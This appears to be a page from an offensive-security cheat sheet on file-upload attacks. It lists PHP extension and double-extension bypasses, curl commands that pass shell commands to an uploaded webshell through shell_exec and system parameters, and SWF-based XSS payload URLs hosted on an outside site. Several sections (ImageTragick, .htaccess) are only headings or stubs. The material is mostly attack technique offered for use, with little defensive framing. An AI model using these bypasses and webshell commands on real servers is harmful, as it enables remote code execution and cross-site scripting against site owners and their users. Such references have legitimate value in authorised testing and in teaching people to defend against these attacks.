 # Upload

Uploaded files may pose a significant risk if not handled correctly. A remote attacker could send a multipart/form-data POST request with a specially-crafted filename or mime type and execute arbitrary code.

## Exploits

### Image Tragik

```powershell
HTTP Request
Reverse Shell
Touch command
```

### PHP Extension

```powershell
.php

Less known extension
.pht
.pgif
.phtml
.shtml

Double extension
.jpeg.php
.png.php
```

### PNG Bypass a resize

Upload the picture and use a local file inclusion

```powershell
You can use it by specifying $_GET[0] as shell_exec and passing a $_POST[1] parameter with the shell command to execute.
curl 'http://localhost/b.php?0=shell_exec' --data "1='ls'"
curl 'http://localhost/test.php?0=system' --data "1='ls'"
```

### JPG Bypass a resize

Upload the picture and use a local file inclusion

```powershell
http://localhost/test.php?c=ls
```

### XSS via SWF

As you may already know, it is possible to make a website vulnerable to XSS if you can upload/include a SWF file into that website. I am going to represent this SWF file that you can use in your PoCs.
This method is based on [1] and [2], and it has been tested in Google Chrome, Mozilla Firefox, IE9/8; there should not be any problem with other browsers either.

```powershell
Browsers other than IE: http://0me.me/demo/xss/xssproject.swf?js=alert(document.domain);

IE8: http://0me.me/demo/xss/xssproject.swf?js=try{alert(document.domain)}catch(e){ window.open(‘?js=history.go(-1)’,’_self’);}

IE9: http://0me.me/demo/xss/xssproject.swf?js=w=window.open(‘invalidfileinvalidfileinvalidfile’,’target’);setTimeout(‘alert(w.document.location);w.close();’,1);
```

### .htaccess

An .htaccess file is a way to configure the details of your website without needed to alter the server config files. 

## References

* Bulletproof Jpegs Generator - Damien "virtualabs" Cauquil
